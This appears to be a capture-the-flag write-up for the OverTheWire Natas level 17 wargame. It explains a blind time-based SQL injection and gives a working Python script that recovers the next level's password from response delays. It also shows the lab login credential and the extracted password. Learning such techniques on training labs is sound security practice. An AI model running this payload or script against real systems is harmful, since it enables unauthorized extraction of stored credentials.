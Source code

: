 [Category:OverTheWire-Natas](/Category:OverTheWire-Natas "wikilink")

Username: natas17 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw URL:
<http://natas17.natas.labs.overthewire.org>

this looked like the first sql injection where we had to check for the
password by guessing

but on closer inspection we saw that there was no output given.

so i knew we had to do a blind time based sql injection. we do this like
challenge 15 but modified like: natas18" and if(password like Binary
\\'{}%\\', sleep(2),false);-- this means like: select all from username
natas8 and if the password is like character given sleep 2 seconds. then
we time the response if its over 2 seconds because the request alone
takes a little bit of time then we know it is valid.

`  `
`  `
`import requests`
`  `
`password = ''`
`possible = ''`
`  `
`# for char in "abcdefghijklmnopqrstuvwxyz0123456789":`
`#     querystring = 'natas18" and if(password like \'%{}%\', sleep(2),false);-- '.format(password+str(char))`
`#     print(querystring)`
`  `
`#     time = requests.post('http://natas17.natas.labs.overthewire.org', auth=('natas17','8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'),data={'username':querystring}).elapsed.total_seconds()`
`#     if(time >= 2):`
`#         possible += str(char)`
`#         print(possible)`
`  `
`  `
`# possible = 'cdfghijklmopqrsvwxy047'`
`# for i in range(31):`
`#     for char in possible:`
`#         querystring = 'natas18" and if(password like \'{}%\', sleep(2),false);-- '.format(password+str(char))`
`#         print(querystring)`
`  `
`#         time = requests.post('http://natas17.natas.labs.overthewire.org', auth=('natas17','8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'),data={'username':querystring}).elapsed.total_seconds()`
`#         if(time >= 2):`
`#             password += str(char)`
`#             print(password)`
`  `
`# print(possible)`
`password = "xvkiqdjy4opv7wcrgdlmj0pfscsdjhdp"`
`  `
`for i in range(len(password)):`
`    `
`    querystring = 'natas18" and if(password like Binary \'{}%\', sleep(2),false);-- '.format(password[:i+1])`
`    print(querystring)`
`  `
`    time = requests.post('http://natas17.natas.labs.overthewire.org', auth=('natas17','8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'),data={'username':querystring}).elapsed.total_seconds()`
`    if(time < 2):`
`        x = list(password)`
`        x[i] = x[i].upper()`
`  `
`        password = "".join(x)`
`        print(password)`
`  `
`#xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`
`  `